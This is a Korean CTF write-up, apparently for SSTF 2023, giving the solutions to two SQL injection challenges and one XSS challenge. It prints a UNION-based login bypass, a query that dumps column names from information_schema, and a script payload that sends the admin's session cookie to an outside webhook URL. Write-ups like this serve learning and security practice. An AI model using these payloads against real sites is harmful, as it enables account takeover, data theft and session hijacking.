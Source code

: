 admin 필터링을 우회하고 admin으로 로그인하는 문제다.

```python
id : 1

pw : 1' union select 0x61646d696e#

# Complete SQL query
select id from users where id='1' and pw='1' union select 0x61646d696e#'
```

위와 같이 로그인하면 된다.

## WEB - SQLi 102

---

검색 기능이 구현된 페이지로 SQLi가 가능하다.

```python
123%' union select 1,group_concat(column_name),3,4,5,6,7,8 from information_schema.columns where table_schema=database()#
```

![Untitled](SSTF%202023%20write%20up%204963128224b94fa58c699069450294ac/Untitled%202.png)

`union SQLi`를 수행하여 메타데이터에 정의된 column을 읽으면 FLAG를 획득할 수 있다.

## WEB - XSS 101

---

로그인 기능과 함께 admin에게 메일을 보낼 수 있는 기능이 있다.

```python
<script>location.href='https://webhook.site/d8808303-68e8-429c-a1ed-f47ba28d5c81/?'.concat(document.cookie)</script>
```

XSS 페이로드로 admin의 `PHPSESSID`를 탈취한다.

![Untitled](SSTF%202023%20write%20up%204963128224b94fa58c699069450294ac/Untitled%203.png)
